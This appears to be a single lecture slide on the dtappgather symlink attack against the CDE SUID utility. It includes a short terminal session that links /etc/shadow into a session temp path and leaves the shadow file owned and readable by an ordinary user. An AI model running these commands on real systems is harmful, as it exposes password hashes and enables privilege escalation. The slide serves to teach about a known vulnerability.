

# The dtappgather Attack
The dtappgather utility was shipped with the Common Desktop Environment (CDE) as a SUID binary
dtappgather uses a directory with permissions 0555 to create temporary files used by each login session
/var/dt/appconfig/appmanager/generic-display-0 is not checked for existence prior to the opening of the file
	ls -l /etc/shadow
-r-------- 1 root other 1500 Dec 29 18:21 /etc/shadow
% ln -s /etc/shadow /var/dt/appconfig/appmanager/generic-display-0
% dtappgather
MakeDirectory: /var/dt/appconfig/appmanager/generic-display-0: File exists
% ls -l /etc/shadow
-r-xr-xr-x 1 user users 1500 Dec 29 18:21 /etc/shadow